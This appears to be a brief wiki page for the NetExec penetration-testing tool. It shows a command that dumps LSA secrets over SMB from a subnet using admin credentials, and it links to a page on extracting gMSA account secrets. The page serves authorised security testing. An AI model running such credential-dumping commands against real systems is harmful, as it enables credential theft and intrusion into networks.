 # Dump LSA

### Dump LSA secrets using methods from secretsdump.py

{% hint style="danger" %}
Requires Domain Admin or Local Admin Priviledges on target Domain Controller
{% endhint %}

```
#~ nxc smb 192.168.1.0/24 -u UserNAme -p 'PASSWORDHERE' --lsa
```

If you found an account starting with _SC\_GMSA_{84A78B8C-56EE-465b-8496-FFB35A1B52A7} you can get the account behind:

{% content-ref url="../../ldap-protocol/extract-gmsa-secrets.md" %}
[extract-gmsa-secrets.md](../../ldap-protocol/extract-gmsa-secrets.md)
{% endcontent-ref %}
